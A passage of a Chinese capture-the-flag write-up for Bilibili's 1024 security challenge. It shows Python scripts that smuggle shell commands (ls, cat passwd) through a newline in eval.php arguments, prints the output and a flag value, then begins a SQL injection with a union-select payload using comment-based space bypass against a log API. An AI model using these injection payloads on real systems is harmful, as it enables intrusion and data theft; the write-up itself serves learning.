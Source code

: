 ```
import requests

url = "http://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&amp;args[]=ls"
response = requests.get(url=url)
print(response.text)

```

返回内容：

```
1.txt
passwd
data
config

```

flag 在 passwd 里，其他就不看了，所以直接使用 Linux 命令 cat passwd，向 [http://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&amp;args[]=cat&amp;args[]=passwd](http://security.bilibili.com/sec1024/q/pro/eval.php?args%5B%5D=1%0A&amp;args%5B%5D=cat&amp;args%5B%5D=passwd) 发送 GET 请求：

```
import requests

url = "http://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&amp;args[]=cat&amp;args[]=passwd"
response = requests.get(url=url)
print(response.text)

```

返回 flag：`9d3c3014-6c6267e7-086aaee5-1f18452a`

---


### 第四题：SQL 注入

本题解题思路来源于网安大佬，给的网址和第二题一样，找一下网页上的按钮，点日志信息可看到日志请求，可以从日志 api 入手，抓包日志 api 为：[https://security.bilibili.com/sec1024/q/admin/api/v1/log/list](https://security.bilibili.com/sec1024/q/admin/api/v1/log/list)，绕过空格过滤尝试通过且回显，Python 发送 POST：

<font color="#ff000">（**PS：注意每次请求 user_name 字段的变化**）</font>

```
import requests

url = "https://security.bilibili.com/sec1024/q/admin/api/v1/log/list"
json_data = {
    "user_id": "",
    "user_name": "1/**/union/**/select/**/database(),user(),3,4,5",
    "action": "",
    "page": 1,
    "size": 20
}

response = requests.post(url=url, json=json_data)
print(response.text)

```
